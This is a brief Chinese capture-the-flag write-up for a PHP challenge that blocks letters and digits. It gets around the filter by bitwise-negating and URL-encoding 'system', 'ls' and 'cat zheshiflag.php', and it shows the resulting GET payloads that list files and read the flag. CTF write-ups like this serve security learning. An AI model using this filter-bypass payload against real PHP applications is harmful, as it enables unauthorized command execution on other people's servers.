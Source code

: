 ### wu

打开实例

![image-20240222163726525](image/image-20240222163726525.png)

典型的无数字字母rce

取反绕过

```php
<?php
echo urlencode(~'system').'   ';					# %8C%86%8C%8B%9A%92
echo urlencode(~'ls').'   ';
# %93%8C
```

对得到的结果再次取反构建payload：

```
?a=(~%8C%86%8C%8B%9A%92)((~%93%8C));
```

![image-20240222195915176](image/image-20240222195915176.png)

得到目录

再次构建，

```php
echo urlencode(~'cat zheshiflag.php')；
# %9C%9E%8B%DF%85%97%9A%8C%97%96%99%93%9E%98%D1%8F%97%8F
```

再次构建，得到flag
